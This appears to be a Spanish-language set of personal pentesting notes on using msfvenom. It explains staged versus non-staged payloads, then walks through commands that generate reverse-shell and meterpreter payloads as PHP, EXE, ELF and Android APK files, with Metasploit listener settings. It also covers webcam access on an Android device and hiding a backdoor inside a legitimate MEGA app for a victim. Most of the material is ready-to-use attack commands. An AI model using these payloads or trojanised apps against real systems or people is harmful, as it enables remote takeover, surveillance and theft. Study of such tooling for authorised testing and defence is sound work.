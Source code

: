 Msfvenom es una herramienta de línea de comandos que forma parte del framework de pruebas de penetración Metasploit. Se utiliza para generar y personalizar payloads (cargas útiles) maliciosos que pueden ser utilizados en ataques de pruebas de penetración y en la explotación de vulnerabilidades en sistemas informáticos.

## TIPOS DE PAYLOADS
Hay dos tipos de payloads, los staged y los non-staged:

- **Payload Staged** --> El Payload Staged es un tipo de carga útil que se descompone en dos o más partes. La primera parte consiste en un fragmento de código que se envía al objetivo con el fin de establecer una conexión segura entre el atacante y la máquina objetivo. Una vez que se establece esta conexión, la segunda parte del payload, que es la verdadera carga útil del ataque, se envía. Este enfoque le da a los atacantes la capacidad de evadir medidas de seguridad adicionales, ya que la verdadera carga útil no se envía hasta que se establece una conexión segura.

- **Payload non-staged** --> Es un tipo de carga útil que se envía como una única entidad y no se divide en múltiples partes. En otras palabras, la carga útil completa se envía al objetivo en un solo paquete y se ejecuta inmediatamente después de ser recibida. Aunque este enfoque es más simple que el Payload Staged, es más fácilmente detectable por los sistemas de seguridad, ya que todo el código malicioso se envía de una sola vez, lo que puede hacer que sea más fácilmente identificado y bloqueado.

-------------------------------------

## Fichero PHP malicioso con msfvenom
Para generar un archivo de reverse shell en PHP utilizando msfvenom, puedes utilizar el siguiente comando:

```python
msfvenom -p php/reverse_php LHOST=<tu dirección IP> LPORT=<tu puerto> -f raw > reverse_shell.php
```

Una vez que hayas generado el archivo de reverse shell en PHP, puedes transferirlo a la máquina objetivo y ejecutarlo en un servidor web para establecer una conexión de reverse shell con la máquina atacante.

## Fichero EXE malicioso con msfvenom

Podemos también generar un payload para entablar una reverse shell en forma de meterpreter en metasploit desde una máquina windows a nuestra máquina atacante, generando el siguiente payload:
```python
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.0.20 LPORT=443 -f exe -o pwned.exe
```
![[Pasted image 20230817140645.png]]
Una vez generado esto, tenemos que abrir el /multi/handler de metasploit seleccionando como payload el meterpreter:
```bash
set PAYLOAD windows/x64/meterpreter/reverse_tcp
```
![[Pasted image 20230817140542.png]]
Y ahora desde la máquina víctima, ejecutamos el script creado anteriormente:
![[Pasted image 20230817140608.png]]
Y recibimos sesión de meterpreter:
![[Pasted image 20230817140625.png]]

## Fichero ELF malicioso con msfvenom

Los ficheros elf en linux se pueden asemejar a los exe de windows, por lo que haremos lo mismo de antes pero para linux:
```bash
msfvenom -p linux/x64/meterpreter/reverse_tcp LHOST=192.168.0.30 LPORT=443 -f elf -o pwned.elf
```
![[Pasted image 20230818120343.png]]
Lo compartimos con la máquina víctima:
![[Pasted image 20230818120411.png]]
Nos ponemos en la escucha con metasploit usando el payload de meterpreter para linux:
```bash
set PAYLOAD linux/x64/meterpreter/reverse_tcp
```
![[Pasted image 20230818120441.png]]
Ejecutamos el archivo en la máquina víctima y recibimos la conexión:
![[Pasted image 20230818120513.png]]

-----------------------------------------

[[MAQUINA SECTALKS (Vulnerabilidad arbitrary file upload, php malicioso con msfvenom, arbitrary file upload y multi-handler de metasploit)]]

# CREAR APK MALICIOSA
Podemos también crear un payload dentro de un apk y establecer una sesión de meterpreter en metasploit, por tanto usaremos el siguiente comando:
```bash
msfvenom -p android/meterpreter/reverse_tcp LHOST=192.168.0.30 LPORT=443 > virus.apk
```
![[Pasted image 20230913095619.png]]
Y ahora con metasploit estaremos en la escucha con el multi handler, además de establecer el payload correcto:
```bash
set payload android/meterpreter/reverse_tcp
```
![[Pasted image 20230913095744.png]]
Si la ejecutamos desde un dispositivo android habremos recibido una sesión de meterpreter:
![[Pasted image 20230913100126.png]]
Y podemos acceder a la webcam:
![[Pasted image 20230913100232.png]]

# ESCONDER BACKDOOR EN APK LEGÍTIMA
Primero tenemos que instalar apktool en nuestro kali:
![[Pasted image 20230915153411.png]]
Y también nos bajamos la última versión del apktool:
![[Pasted image 20230915153511.png]]
Otorgamos permisos a los 2 archivos:
![[Pasted image 20230915153651.png]]
Movemos los dos archivos al siguiente directorio:
![[Pasted image 20230915154214.png]]
Y dentro del /usr/local/bin tenemos que renombrar el fichero .jar de esta forma:
![[Pasted image 20230915153900.png]]
Y ahora si ejecutamos el apktool debería funcionar bien:
![[Pasted image 20230915154546.png]]
Y ahora instalaremos estos 3 paquetes:
![[Pasted image 20230915160559.png]]
Ahora el siguiente paso será descargar un apk legítima, por ejemplo la de mega:
![[Pasted image 20230915124544.png]]
Y ahora una vez descargado el apk lo pasamos por msfvenom:
```bash
msfvenom -x mega.apk -p android/meterpreter/reverse_tcp LHOST=192.168.0.36 LPORT=443 -o mega_virus.apk
```
![[Pasted image 20230915155153.png]]
Lo pasamos al dispositivo android y ahora con metasploit nos ponemos en la escucha:
![[Pasted image 20230915155351.png]]

Nos compartimos el apk con la víctima y con metasploit nos ponemos en la escucha, poniendo este payload:
```bash
set payload android/meterpreter/reverse_tcp
```